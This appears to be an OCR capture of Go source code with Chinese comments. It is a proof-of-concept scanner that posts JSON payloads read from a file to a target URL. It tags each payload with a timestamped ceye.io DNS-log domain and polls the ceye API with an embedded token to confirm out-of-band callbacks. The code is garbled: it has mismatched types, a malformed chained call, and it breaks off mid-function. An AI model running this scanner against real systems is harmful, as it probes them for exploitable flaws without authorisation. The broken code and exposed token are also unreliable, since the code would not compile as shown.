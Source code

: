 > 需要使用resty库重写请求方式，并添加循环请求不同的Payload
> 
> Payload从固定的文件中读取，读取时替换dnslog部分（使用strings库），为了唯一性在dnslog前添加时间戳使其唯一
> 
> 每次POST后请求ceye的API看看有没有对应dnslog的请求结果
> 
> func verify(target string) string {
> 
> file, err := os.Open("poc.txt")
> 
> if err != nil {
> 
> log.Printf("Cannot open text file: %s, err: [%v]", textfile, err)
> 
> return err
> 
> }
> 
> defer file.Close()
> 
> scanner := bufio.NewScanner(file)
> 
> for scanner.Scan() {
> 
> timeUnix:=time.Now().Unix() + ".qsu9q8.ceye.io"
> 
> line := scanner.Text()
> 
> line2 := strings.ReplaceAll(line,"dnslog", timeUnix)
> 
> url := target
> 
> client := resty.New()
> 
> client.SetTimeout(15 * time.Second)
> 
> resp, err :=
> client.R().EnableTrace().client.R().SetHeader("Content-Type",
> "application/json").SetBody(line2).Post(url)
> 
> if err != nil {
> 
> gologger.Warning().Msg("Request error: " + target)
> 
> } else {
> 
> client := resty.New()
> 
> client.SetTimeout(15 * time.Second)
> 
> resp, err :=
> client.R().EnableTrace().client.R().SetHeader("User-Agent","
> Chrome/83.0.4103.116
> Safari/537.36").Get("http://api.ceye.io/v1/records?token=019a2710d2d038d74ee7372cbbd6efe3&type=dns&filter=")
> 
> if resp.StatusCode() == http.StatusOK {
> 
> if strings.Contains(resp,timeUnix) {
> 
> //gologger.Info().Msg(target + " is vulnerable")
> 
> return target
> 
